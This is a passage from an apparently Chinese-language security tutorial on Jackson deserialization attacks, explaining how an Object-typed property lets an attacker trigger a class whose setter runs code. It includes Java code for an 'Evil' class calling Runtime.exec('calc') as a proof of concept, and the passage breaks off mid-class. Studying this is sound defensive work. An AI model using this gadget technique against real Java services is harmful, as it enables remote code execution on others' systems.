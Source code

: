 运行即可弹出计算器

[![](assets/1701606625-9d05007c0e6fa23f18d68bae9077d9e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110003252-a0e57aea-7f1d-1.png)

### 属性中有Object类时

因为Object是任意类型的父类 因此扩大了我们的攻击面 我们只需要在目标服务端中存在的且构造函数或setter方法存在漏洞的类即可进行攻击利用 例如 存在一个恶意类Evil 在其构造函数或者是setter方法中存在任意代码执行漏洞

```plain
package jackson;

public class Evil {
    public String cmd;

    public void setCmd(String cmd) {
        this.cmd = cmd;
        try {
            Runtime.getRuntime().exec("calc");
        }
        catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

然后我们将其写到json中

```plain
package jackson;

import com.fasterxml.jackson.annotation.JsonTypeId;
import com.fasterxml.jackson.annotation.JsonTypeInfo;

public class Hacker {
    public String skill = "moyu";
}

class Person2{
    public String name;
    public int age;
```